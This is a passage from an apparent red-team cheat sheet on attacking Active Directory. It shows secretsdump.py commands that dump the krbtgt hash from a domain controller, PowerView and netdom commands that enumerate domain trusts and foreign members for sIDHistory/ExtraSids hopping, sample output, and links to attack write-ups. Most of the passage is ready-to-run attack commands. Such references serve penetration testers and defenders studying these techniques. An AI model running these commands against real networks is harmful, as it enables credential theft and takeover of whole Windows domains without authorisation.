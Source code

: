 ```
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```


## Attack Trusts

* [http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)
* [http://www.harmj0y.net/blog/redteaming/domain-trusts-were-not-done-yet/](http://www.harmj0y.net/blog/redteaming/domain-trusts-were-not-done-yet/)
* [http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)
* [https://habr.com/ru/company/jetinfosystems/blog/466445/](https://habr.com/ru/company/jetinfosystems/blog/466445/)

Enum foreign users and groups:

```
PowerView3 > Get-DomainTrust -Domain megacorp.com
PowerView3 > Get-DomainForeignGroupMember -Domain megacorp.com
PowerView3 > Get-DomainForeignUser -Domain megacorp.com
```



### sIDHistory/ExtraSids Hopping

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
* [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
```

Use PowerView to enumerate domain trusts:

```
PowerView2 > Get-NetForestDomain

Forest                  : megacorp.local
DomainControllers       : {DC03.megacorp.local, DC04.megacorp.local}
Children                : {child.megacorp.local}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  :
PdcRoleOwner            : DC03.megacorp.local
RidRoleOwner            : DC03.megacorp.local
InfrastructureRoleOwner : DC03.megacorp.local
Name                    : megacorp.local

Forest                  : megacorp.local
DomainControllers       : {DC01.child.megacorp.local, DC02.child.megacorp.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : megacorp.local
PdcRoleOwner            : DC01.child.megacorp.local
RidRoleOwner            : DC01.child.megacorp.local
InfrastructureRoleOwner : DC01.child.megacorp.local
Name                    : child.megacorp.local

PowerView2 > Invoke-MapDomainTrust
```
